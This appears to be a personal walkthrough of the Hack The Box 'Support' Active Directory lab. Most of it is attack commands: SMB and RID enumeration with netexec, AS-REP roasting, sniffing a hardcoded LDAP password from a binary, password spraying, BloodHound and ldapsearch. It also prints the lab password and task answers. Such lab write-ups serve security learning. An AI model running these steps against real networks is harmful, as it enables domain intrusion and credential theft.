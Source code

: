 HTB - Support (Easy) 
AD/Windows

**nmap**
`sudo nmap -p- -Pn -T5 10.10.11.174 -oN nmap`



---
**SMB**

check shares with `netexec
`nxc smb rhost -u '' -p '' --shares`

check shares with `anonymous/guest` user
`nxc smb rhost -u 'anonymous' -p '' --shares`
![[Pasted image 20250506122620.png]]

we can see ``IPC`` is a `Relative Identifier (rid)` so we can bruteforce it
to enumerate users
`nxc smb rhost -u 'anonymous' -p '' --rid-brute
make a txt file of users

**asreproast**
steal asrep hashes of users
``impacket-GetNPUsers -request -dc-ip rhost -userfile ./users.txt support.htb``

nvm, it's useless anyway so dont bother
![[Pasted image 20250506130040.png]]

we can also see `support-tools` is also readable, so we can see its contents
`smbclient -U anonymous //rhost/support-tools`

---
**getting LDAP credentials**
install `mono` in your PC, if you dont have it yet, 
go to `https://www.mono-project.com/docs/getting-started/install/linux/`
after that, open wireshark and capture packets,
and then run the binary using 
`sudo wine UserInfo.exe`
in wireshark, look for packet that says `bindRequest` and you can find the credential

![[Pasted image 20250506180441.png]]

**verify credential**
check if other users uses the same password
`nxc smb rhost -u users.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-success`

use netexec to check ldap permission on shares
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares`

check for passwords on user description
it is important because some of the admins dont realize that other users can see user description and sometimes they put the user password there
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --users`

shows nothing
![[Pasted image 20250506185438.png]]


**bloodhound**
`nxc smb rhost -u 'ldap' -p pass.txt --bloudhound -c all --dns-server rhost`
OR
`bloodhound-python -c all -u ldap -p pass.txt -d support.htb -ns rhost`

**LDAP**
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"`

it's messy. you can output it to txt file and grep
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldapsearch.txt`

something's interesting in one of it's user bearing `info` tag
`cat ldapsearch.txt | grep info`
![[Pasted image 20250506190914.png]]




---
<h3>QUESTIONS</h3>
Task 1: How many shares is Support showing on SMB?
`6`
  
Task 2: Which share is not a default share for a Windows domain controller?
`support-tools`

Task 3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?
`UserInfo.exe.zip`

Task 4: What is the hardcoded password used for LDAP in the `UserInfo.exe` binary?
